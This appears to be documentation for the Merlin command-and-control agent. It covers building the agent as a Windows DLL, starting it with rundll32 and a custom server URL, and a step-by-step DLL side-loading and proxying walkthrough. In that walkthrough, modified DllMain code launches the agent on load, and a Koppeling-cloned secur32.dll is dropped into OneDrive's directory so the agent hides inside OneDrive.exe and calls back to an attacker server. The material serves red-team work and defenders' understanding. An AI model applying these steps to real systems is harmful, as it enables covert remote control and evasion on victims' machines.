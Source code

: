 ```yaml
---
title: "DLL Agent"
description: "Building and using the Merlin Agent as a Windows DLL"
icon: "puzzle-piece"
---
```


The Merlin Agent can be compiled into a DLL using the https://github.com/Ne0nd0g/merlin-agent-dll repository.
The `merlin.c` file is a very simple C file with a single function.
The `VoidFunc` and `Run` functions are exported to facilitate executing the DLL.

The `VoidFunc` function name was specifically chosen to facilitate use with PowerSploit's
[Invoke-ReflectivePEInjection.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1).
Using `VoidFunc` requires no modification to run Merlin's DLL with Invoke-ReflectivePEInjection.

If the DLL is compiled on Windows, the [TDM-GCC](http://tdm-gcc.tdragon.net/download) 64bit compiler has proven to work well during testing.

If the DLL is compiled on Linux, ensure `MinGW-w64` is installed.

## Creating the DLL

The DLL can be created using the Make file with `make`

Alternatively, it can be compiled without Make by following these steps:

- Create the required C archive file:
    `go build -buildmode=c-archive main.go`

- Compile the DLL:
    `gcc -shared -pthread -o merlin.dll merlin.c main.a -lwinmm -lntdll -lws2_32`

You will now have DLL file that you can use with whatever method of execution you would like.

## DLL Entry Points

This table catalogs the exported functions for `merlin.dll` that can be used as an entry point when executing the DLL.

| Exported Function | Status | Notes |
|-------------------|--------|--------|
| Run | Working | Main function to execute Merlin agent |
| DllInstall | Partial | Used with regsvr32.exe /i . Handling for `/i` not implemented |
| DllRegisterServer | Working | Used with regsvr32.exe |
| DllUnregisterServer | Working | Used with regsvr32.exe /u |
| ReflectiveLoader | Removed | Used with Metasploit's windows/manage/reflective_dll_inject module |
| Magic | Working | Exported function in `merlin.c`; used with sRDI or any other method |
| Merlin | Working | Exported function in `main.go` |
| VoidFunc | Working | Used with PowerSploit's Invoke-ReflectivePEInjection.ps1 |

## Execution with rundll32.exe

The DLL can be executed on a Windows host using the rundll32.exe program. Examples of using `rundll32` are:

- `rundll32 merlin.dll,Run`
- `rundll32 merlin.dll,Merlin`
- `rundll32 merlin.dll,Magic`

A different Merlin server *can* be provided when executing the DLL by supplying the target URL as an argument. An example is:

`rundll32 merlin.dll,Run https://yourdomian.com:443/`

<Note>
Passing a custom URL only works when using cmd.exe and fails when using powershell.exe
</Note>

## DLL Hijacking/Proxying with the Merlin DLL Agent

With a little bit of setup, the Merlin DLL agent can be used for DLL Hijacking / Side-loading / Proxying. This is a great technique to get the Merlin agent running in the codespace of a trusted process.

The specifics on choosing an executable for DLL proxying are outside the scope of this documentation. Assume that a candidate executable has been identified.

In the `merlin-agent-dll` repo, add a new exported function with an arbitrary name to `main.go`. Have this function execute the `run` function with the `url` argument:

```go
...[SNIP]...

// EXPORTED FUNCTIONS

// MagicMan is a test function
//
//export MagicMan
func MagicMan() {
    run(url)
}

...[SNIP]...
```

Note that the name of the exported function must match in the comment block and the code itself or Go will complain during compilation.

Now, in the `merlin.c` source code, add a new function that executes the exported function from `main.go`:

```c
...[SNIP]...

DWORD WINAPI RunMagicMan(LPVOID LpParam){
    //MessageBoxA( NULL, "Hello from MagicMan() in Merlin", "DLL Load", MB_OK );
    MagicMan();
    return TRUE;
}

...[SNIP]...
```

Next, edit the structure of `DllMain` entry point. We want to create a thread that will execute the Merlin agent function when the DLL is side-loaded into the process:

```c
...[SNIP]...

BOOL WINAPI DllMain(
    HINSTANCE hinstDLL,  // handle to DLL module
    DWORD fdwReason,     // reason for calling function
    LPVOID lpReserved )  // reserved
{
    // Perform actions based on the reason for calling.
    switch( fdwReason )
    {
        case DLL_PROCESS_ATTACH:
            //MessageBoxA( NULL, "Hello from DllMain-PROCESS_ATTACH in Merlin!", "DLL Load", MB_OK );
            CreateThread(NULL, 0, RunMagicMan, NULL, 0, 0);
            break;

...[SNIP]...
```

Now, when the Merlin DLL Agent is loaded by a trusted process, the DLL entry point will run the CreateThread function and execute the agent.

Build the DLL agent with the merlin-agent-dll makefile and supply your desired URL, PSK, and protocol parameters:

`husky@dev-kde:~/merlin-agent-dll$ make URL=http://10.10.1.237:8443 PSK=merlin PROTO=http`

Let's assume that we're targeting the OneDrive.exe program for our DLL Proxy. We know that OneDrive.exe loads `secur32.dll` from the present working directory during execution.

We can now use a tool like Koppelling to create a proxied DLL:

`PS C:\Users\Matt\Desktop\Koppeling> .\NetClone.exe --target 'C:\Users\Matt\Desktop\merlin.dll' --reference 'C:\Windows\system32\secur32.dll' --output 'C:\Users\Matt\Desktop\secur32.dll'`

Then, we endeavor to drop our proxied DLL into the OneDrive application directory. Luckily for us, this is in %APPDATA% and we can write to the directory:

`C:\Users\Matt\AppData\Local\Microsoft\OneDrive`

When the application starts, our proxied DLL is pulled into the process and a thread is executed. Our session is established and our agent lives inside the OneDrive.exe process.